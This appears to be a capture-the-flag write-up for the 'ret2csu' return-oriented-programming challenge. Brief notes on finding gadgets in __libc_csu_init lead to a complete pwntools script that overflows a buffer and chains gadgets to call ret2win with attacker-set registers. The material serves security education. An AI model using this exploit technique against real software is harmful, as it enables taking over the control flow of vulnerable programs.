





the win function exist in the plt section, which mean that we can call it directly in our chain


unfortunately, ret2win check for rdi, rsi and rdx for specific values


now we dont exactly have those convenient gadget to manipulate rdx



searching the binary using objdump, we discover our necessary apparatus

now, the tricky part is dealing with call |r12+rbx * 8|

our candidates exist in the plt sections, which are pwnme and ret2win




bad news! pwnme modify rdx while ret2win exit, breaking the program

that left us with one hope: looking in the data section of the binary for some lucky finds



with patient, we find a perfect candidate, which is a gadget that does absolutely nothing and return



with that, we can finally craft the script

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./ret2csu")

context.binary = exe
# context.log_level = "debug"

script = '''
b*pwnme+150
'''

def main():
    # r = gdb.debug(exe.path, gdbscript=script)
    r = process(exe.path)

    gad1=0x400680
    # 0x400680 <__libc_csu_init+64>:	mov    rdx,r15
    # 0x400683 <__libc_csu_init+67>:	mov    rsi,r14
    # 0x400686 <__libc_csu_init+70>:	mov    edi,r13d
    # 0x400689 <__libc_csu_init+73>:	call   QWORD PTR [r12+rbx*8]
    # 0x40068d <__libc_csu_init+77>:	add    rbx,0x1
    # 0x400691 <__libc_csu_init+81>:	cmp    rbp,rbx
    # 0x400694 <__libc_csu_init+84>:	jne    0x400680 <__libc_csu_init+64>
    # 0x400696 <__libc_csu_init+86>:	add    rsp,0x8
    # 0x40069a <__libc_csu_init+90>:	pop    rbx
    # 0x40069b <__libc_csu_init+91>:	pop    rbp
    # 0x40069c <__libc_csu_init+92>:	pop    r12
    # 0x40069e <__libc_csu_init+94>:	pop    r13
    # 0x4006a0 <__libc_csu_init+96>:	pop    r14
    # 0x4006a2 <__libc_csu_init+98>:	pop    r15
    # 0x4006a4 <__libc_csu_init+100>:	ret
    pop_rdi=0x00000000004006a3
    pop_rbx_pop_rbp_pop_r12_pop_r13_pop_r14_pop_r15=0x000000000040069a
    ret2win_plt=exe.plt["ret2win"]

    buf=0x28*b"A"

    payload=flat(
        buf,
        pop_rbx_pop_rbp_pop_r12_pop_r13_pop_r14_pop_r15,
        0,
        1,
        0x4003b0,
        0xdeadbeefdeadbeef,
        0xcafebabecafebabe,
        0xd00df00dd00df00d,
        gad1,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        pop_rdi,
        0xdeadbeefdeadbeef,
        ret2win_plt
    )

    time.sleep(0.1)
    r.send(payload)

    r.interactive()

if __name__ == "__main__":
    main()

```